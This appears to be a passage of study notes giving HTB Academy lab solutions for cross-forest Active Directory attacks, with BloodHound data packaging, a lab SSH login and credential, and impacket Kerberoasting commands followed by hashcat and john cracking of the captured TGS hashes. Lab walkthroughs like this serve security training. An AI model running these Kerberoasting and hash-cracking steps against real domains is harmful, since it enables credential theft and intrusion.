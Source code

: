 #### **Data Packaging**
```bash
# Compress JSON files for BloodHound import
zip -r cross_forest_bh.zip *.json

# Import into BloodHound GUI for analysis
# Use "Users with Foreign Domain Group Membership" query
```

---

## 🎯 **HTB Academy Lab Solutions**

### **Lab Environment Setup**
```bash
# SSH to Linux attack host
ssh htb-student@10.129.230.129
# Password: HTB_@cademy_stdnt!
```

### **🔍 Question 1: "Kerberoast across the forest trust from the Linux attack host. Submit the name of another account with an SPN aside from MSSQLsvc."**

**Solution:**
```bash
# Enumerate all SPNs in trusted domain
impacket-GetUserSPNs -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley

# Look for additional SPN accounts beyond mssqlsvc
# Expected accounts may include:
# - HTTP service accounts
# - CIFS service accounts  
# - Other SQL service accounts
# - Exchange service accounts
```

**🎯 Answer**: `[Additional SPN account name from enumeration]`

### **🎫 Question 2: "Crack the TGS and submit the cleartext password as your answer."**

**Solution:**
```bash
# Request TGS tickets for all identified SPNs
impacket-GetUserSPNs -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley -outputfile kerberoast_hashes.txt

# Crack the extracted hashes
hashcat -m 13100 kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt

# Alternative cracking approach
john --format=krb5tgs kerberoast_hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt

# Monitor for successful password crack
```
